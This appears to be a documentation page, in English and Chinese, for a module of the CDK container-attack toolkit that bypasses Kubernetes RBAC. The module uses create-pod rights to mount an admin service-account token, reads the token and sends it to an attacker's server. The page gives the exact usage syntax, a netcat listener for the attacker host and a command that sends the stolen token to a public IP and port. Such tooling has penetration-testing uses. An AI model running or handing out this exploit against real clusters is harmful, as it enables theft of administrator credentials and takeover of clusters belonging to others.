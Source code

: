 Bypass K8s RBAC with pod create privilege. This exploit will create a pod with target(admin) service-account token mounted, then read the token and send it to remote IP:Port.

绕过K8s RBAC：如果当前的Pod有创建Pod权限，即可利用本EXP进行提权到Cluster Admin。本EXP将创建一个Pod并挂在目标service-account的token，之后在Pod中读取该token并发送到攻击者的公网服务器。

## Usage

```
cdk run k8s-get-sa-token (default|anonymous|<service-account-token-path>) <target-service-account> <ip> <port>"

Request Options:
default: connect API server with pod's default service account token
anonymous: connect API server with user system:anonymous
<service-account-token-path>: connect API server with user-specified service account token.

Exploit Options:
target-service-account: target service-account token to dump(e.g. admin).
ip: target remote IP to hijack traffic.
port: target remote PORT to hijack traffic.
```

## Example

First listen a port in a public server to receive data
```
(on attacker's public server, e.g. 39.104.80.49)
nc -lvp 999
```

Inside victim pod which has "create pod" privilege, run CDK exploit to dump "admin" service-account's token.
```
(in victim pod)
./cdk run k8s-get-sa-token default admin 39.104.80.49 999
```

![jpg](https://static.cdxy.me/cuimage/20210317175917_ITPymA_Screenshot.jpeg)